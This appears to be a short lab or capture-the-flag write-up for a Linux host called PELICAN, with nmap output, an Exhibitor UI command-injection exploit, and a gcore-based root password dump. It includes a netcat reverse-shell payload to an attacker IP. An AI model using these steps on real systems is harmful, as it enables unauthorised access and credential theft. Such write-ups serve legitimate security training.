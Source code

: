 #Linux

#### Nmap
```
PORT      STATE SERVICE
22/tcp    open  ssh
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
631/tcp   open  ipp
2181/tcp  open  eforward
2222/tcp  open  EtherNetIP-1
8080/tcp  open  http-proxy
8081/tcp  open  blackice-icecap
39605/tcp open  unknown
```

```
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp   open  ipp         CUPS 2.2
| http-methods:
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-title: Forbidden - CUPS v2.2.10
|_http-server-header: CUPS/2.2 IPP/2.1
2181/tcp  open  zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
2222/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
8080/tcp  open  http        Jetty 1.0
|_http-server-header: Jetty(1.0)
|_http-title: Error 404 Not Found
8081/tcp  open  http        nginx 1.14.2
|_http-server-header: nginx/1.14.2
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://192.168.217.98:8080/exhibitor/v1/ui/index.html
39605/tcp open  java-rmi    Java RMI
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


https://www.exploit-db.com/exploits/48654
The steps to exploit it from a web browser:

    Open the Exhibitor Web UI and click on the Config tab, then flip the Editing switch to ON

    In the “java.env script” field, enter any command surrounded by $() or ``, for example, for a simple reverse shell:

    $(/bin/nc -e /bin/sh 10.0.0.64 4444 &)
    Click Commit > All At Once > OK
    The command may take up to a minute to execute.


Got the foothold using the above exploit

Then further exploited the file with sudo permission
gcore
which helps to dump the root pwd from a process called password stored.